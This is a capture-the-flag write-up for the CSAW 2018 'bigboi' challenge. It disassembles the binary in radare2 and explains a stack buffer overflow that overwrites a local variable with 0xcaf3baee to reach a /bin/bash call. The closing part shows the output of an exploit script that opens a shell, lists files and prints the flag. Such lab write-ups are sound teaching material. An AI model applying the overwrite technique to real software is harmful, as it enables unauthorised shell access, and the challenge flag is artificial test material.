


```
bigboy

Only big boi pwners will get this one!

nc pwn.chal.csaw.io 9000
```

We are given a binary file that receives a user input, and after that, a date is printed and the binary
ends its execution.

```
./boi
Are you a big boiiiii??
asdf
Sat Sep 15 23:55:27 CST 2018
```

It doesn't matter how long is the user input the result its the same.

#Analysis#
We fire up radare2 to take a peek at the binary, we immediately find some interesting stuff in the
main function as shown below.



At address 0x004006a8 we compare if the value stored in **local__1ch** is not equal to 0xcaf3baee,
if they are different we jump to 0x004006bb that calls /bin/date.

```asm
0x004006bb      bf86074000     mov edi, str.bin_date                ; 0x400786 ; "/bin/date"
0x004006c0      e861ffffff     call sym.run_cmd
```

Otherwise we continue execution at address 0x004006af, this address calls /bin/bash (probably we
are looking for this condition)

```asm
0x004006af      bf7c074000     mov edi, str.bin_bash                ; 0x40077c ; "/bin/bash"
0x004006b4      e86dffffff     call sym.run_cmd
```

However, **local__1ch** was assigned the value of 0xdeadbeef a few instructions above ...

```asm
0x0040067e      c745e4efbead.  mov dword [local_1ch], 0xdeadbeef
```

... but if we look carefully our controlled input **buf** is saved at offset rbp-0x30 and we are
writing 0x18 bytes to the stack, that is enough to write from rbp-0x30 to rbp-0x1c (offset of local_1ch).

Lets debug our binary with GDB and check what happens when we send 24 A's as our input ...



After sending 24 A's we can see that we were able to write an arbitrary value at offset rbp-0x1c,
now we'll add the value 0xcaf3baee on the last 4 bytes and try our exploit ...

```
python exploit.py
[+] Opening connection to pwn.chal.csaw.io on port 9000: Done
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAîº _    ___        ____   ___  _ _ _ _
| |__|_ _|__ _  | __ ) / _ \(_|_|_|_)
| '_ \| |/ _` | |  _ \| | | | | | | |
| |_) | | (_| | | |_) | |_| | | | | |
|_.__/___\__, | |____/ \___/|_|_|_|_|
         |___/
***************************************
Are you a big boiiiii??
$ ls
ls
art.txt  boi  flag.txt    run.sh
$ cat flag.txt
cat flag.txt
flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}
```
